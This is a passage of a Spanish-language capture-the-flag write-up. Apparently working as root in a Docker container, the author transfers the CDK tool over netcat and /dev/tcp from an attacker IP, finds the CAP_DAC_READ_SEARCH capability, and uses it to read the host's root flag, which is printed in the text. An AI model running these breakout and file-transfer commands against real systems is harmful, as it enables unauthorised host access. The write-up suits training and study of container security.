 ```null
root@c150397ccd63:/app/bundle/programs/server# hostname -I
172.17.0.3 
```

Busco en [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) formas de efectuar un Docker Breakout. Utilizo [CDK](https://github.com/cdk-team/CDK/releases/tag/v1.5.1) para enumerar el contenedor

```null
nc -nlvp 443 < cdk
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.155] 34214
```

```null
root@c150397ccd63:~# cat < /dev/tcp/10.10.16.6/443 > cdk
```

Otra forma es utilizando ```pwncat-cs```

```null
pwncat-cs -lp 443

(local) pwncat$ upload cdk /tmp/cdk
/tmp/cdk ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 12.0/12.0 MB • 866.9 kB/s • 0:00:00
[17:03:44] uploaded 12.01MiB in 24.07 seconds                                                                                                                                                       upload.py:76

(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# 
```

Lo ejecuto y encuentra lo siguiente:

```null
root@c150397ccd63:~# ./cdk evaluate
...
 Added capability list: CAP_DAC_READ_SEARCH
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
...
```

Puedo visualizar la segunda flag

```null
root@c150397ccd63:~# ./cdk run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
33f94f70a5d8d427f1fcd10b555422e2
```

Es posible ganar acceso a la máquina abusando también de esta capability. En [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override) comparten un script en c que automatiza el sobrescribir archivos de la máquina host